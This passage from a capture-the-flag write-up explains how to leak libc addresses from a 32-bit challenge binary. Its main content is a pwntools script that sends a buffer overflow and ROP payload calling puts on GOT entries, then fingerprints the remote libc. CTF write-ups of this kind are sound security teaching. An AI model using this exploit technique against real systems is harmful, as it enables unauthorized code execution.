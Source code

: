 First off, since PIE isn't enabled we can call imported functions. We also see that `puts` is enabled:

```
$    objdump -D server | grep puts
08048410 <puts@plt>:
 8048704:    e8 07 fd ff ff           call   8048410 <puts@plt>
 8048716:    e8 f5 fc ff ff           call   8048410 <puts@plt>
 8048846:    e8 c5 fb ff ff           call   8048410 <puts@plt>
 8048881:    e8 8a fb ff ff           call   8048410 <puts@plt>
```

So we can just call `puts` twice, with the address being the `got` address for `puts` and `gets`. The got address holds the libc address for the corresponding function. Now in `x86`, `puts` expects it's argument `0x4` bytes after the instruction on the stack. With that we can get our two libc addresses.

Now for actually identifying the remote libc version, we can just use the tool I mentioned earlier (https://github.com/guyinatuxedo/The_Night). All we need to do is import it into our exploit code, then call a single function. For that single function, there will be four arguments. The first two will be the first libc infoleak along with the symbol for it. The last two will be the second infoleak along with the symbol for it:

```
mport TheNight
from pwn import *


target = remote("chal.utc-ctf.club", 4902)
#target = process("./server")
elf = ELF('server')

#gdb.attach(target, gdbscript = 'b *0x804863f')

payload = ""
payload += "0"*0x3c
payload += p32(elf.symbols["puts"])
payload += p32(elf.symbols["puts"])
payload += p32(elf.got["puts"])
payload += p32(elf.got["gets"])

target.sendline(payload)


for i in range(0, 2):
    print target.recvuntil("Return address:")


for i in range(0, 2):
    print target.recvline()


leak0 = target.recvline()[0:4]
leak1 = target.recvline()[0:4]

puts = u32(leak0)
gets = u32(leak1)

print "puts address: " + hex(puts)
print "gets address: " + hex(gets)

TheNight.findLibcVersion("puts", puts, "gets", gets)

target.interactive()
```
